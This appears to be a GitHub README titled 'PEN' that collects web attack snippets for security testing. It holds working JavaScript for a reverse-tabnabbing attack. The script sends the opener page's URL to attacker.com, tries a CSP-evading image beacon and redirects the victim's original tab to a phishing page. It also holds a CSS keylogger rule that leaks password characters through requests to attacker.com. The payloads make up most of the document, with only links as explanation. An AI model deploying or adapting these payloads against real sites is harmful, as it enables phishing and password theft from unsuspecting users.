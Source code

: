 # PEN
A curated list of script and attack for security testing purposes and knowledgement.  
  
## JavaScript:
  - #### `target="_blank"` vulnerability:
    ```javascript
    if (window.opener) {
      // If the site that load this script was opened clicking to an `a` element 
      // which has setted the target to '_blank', the browser will initialize the `opener` object
      // refered to the browser opener window.
      // This weakness could be used to redirect the opener window to the phishing site.
    
      fetch("//attacker.com/log/start/phishing/?location=" + window.opener.location)
      .then(response => {
        // Wait for the deployment of the phishing site.
        setTimeout(() => {
          // Phishing
          window.opener.location = 
              `https://attacker.com/${response.json().uuid}/${window.opener.location}`
              
        }, 5000)
      })
      .catch(err => {
        // Error, maybe CSP :(
        
        let bypassCSP = new Image();
        bypassCSP.src = "//attacker.com/log/?location=" + window.opener.location
      });
    }
    ```  
    References:
    - https://dev.to/ben/the-targetblank-vulnerability-by-example
  
## CSS:
  - #### CSS Keylogger: 
    ```css
    input[type="password"][value$="a"] {
      background-image: url("https://attacker.com/a");
    }
    ```  
    References:
    - https://github.com/maxchehab/CSS-Keylogging
    - https://hackaday.com/2018/02/25/css-steals-your-web-data/
